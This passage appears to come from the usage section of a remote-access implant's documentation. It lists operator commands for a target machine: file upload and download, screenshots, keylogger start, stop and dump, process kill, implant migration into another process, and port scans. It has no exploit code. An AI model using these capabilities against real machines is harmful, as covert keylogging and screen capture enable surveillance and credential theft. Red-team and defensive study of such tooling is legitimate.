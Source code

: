 4. **Upload a file to the target system**:
   ```bash
   upload <LOCAL_FILE> <REMOTE_PATH>
   ```

5. **Download a file from the target system**:
   ```bash
   download <REMOTE_FILE> <LOCAL_PATH>
   ```

6. **List files in a directory on the target system**:
   ```bash
   ls <REMOTE_DIRECTORY>
   ```

7. **Change directory on the target system**:
   ```bash
   cd <REMOTE_DIRECTORY>
   ```

8. **Capture a screenshot from the target system**:
   ```bash
   screenshot
   ```

9. **Record keystrokes on the target system**:
   ```bash
   keylogger start
   ```

10. **Stop recording keystrokes on the target system**:
    ```bash
    keylogger stop
    ```

11. **Retrieve recorded keystrokes**:
    ```bash
    keylogger dump
    ```

12. **List processes running on the target system**:
    ```bash
    ps
    ```

13. **Kill a process on the target system**:
    ```bash
    kill <PROCESS_ID>
    ```

14. **Migrate the implant to another process**:
    ```bash
    migrate <PROCESS_ID>
    ```

15. **Run a built-in command (e.g., port scan, file search)**:
    ```bash
    run <COMMAND>
    ```

